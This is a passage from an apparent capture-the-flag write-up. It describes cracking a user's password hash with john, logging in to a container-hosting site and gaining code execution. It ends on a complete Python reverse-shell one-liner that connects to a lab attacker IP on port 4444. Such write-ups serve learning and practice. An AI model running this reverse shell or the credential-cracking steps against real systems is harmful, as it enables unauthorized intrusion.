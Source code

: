 <figure><img src="../../../.gitbook/assets/image (96) (1) (2).png" alt=""><figcaption></figcaption></figure>

&#x20;I was able to get out the remaining hashes, which were for **root and gary.** We can crack these using john. Only one of them was crackable, and it was gary's.

<figure><img src="../../../.gitbook/assets/image (101) (2).png" alt=""><figcaption></figcaption></figure>

So his password is rubberducky. With these credentials, we can log in to the website as gary.

### Container Creation

Within the login, we are able to simply register and start a new docker container.

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

Within each docker container, we can basically get RCE on it. This can be done using the execute command button. I found that using the one without the background creates a very unstable shell, so use the other one.

<figure><img src="../../../.gitbook/assets/image (119) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can use this reverse shell command:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
